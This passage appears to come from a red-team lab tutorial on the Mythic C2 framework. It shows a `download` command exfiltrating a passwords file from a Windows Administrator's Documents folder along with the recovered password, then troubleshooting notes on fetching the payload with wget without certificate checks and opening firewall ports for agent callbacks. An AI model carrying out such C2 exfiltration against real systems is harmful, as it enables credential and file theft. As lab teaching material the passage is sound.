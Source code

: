 ![Mythic Payload](../images/21-mythic2.png)

**Demo file exfil:**

- File path on Windows: `C:\Users\Administrator\Documents\passwords.txt`
- Mythic `download` command used:

```text
download C:\Users\Administrator\Documents\passwords.txt
```

- File appeared in Mythic downloads; opening it revealed `Winter2024!`.

---

## Troubleshooting & Notes (from demo)

- If `wget` fails with certificate CN mismatch, use `--no-check-certificate` to fetch the payload in the lab environment (demo).
- If the Python HTTP server cannot be reached, verify `ufw` rules:

```bash
sudo ufw allow 9999
sudo ufw allow 80
```

- If agent shows `SYN_SENT` or similar in `netstat` ensure the server allows incoming/outgoing traffic on callback port and the hosting port is reachable.
- Always configure Mythic settings via Mythic CLI when adding agents or C2 profiles.

---
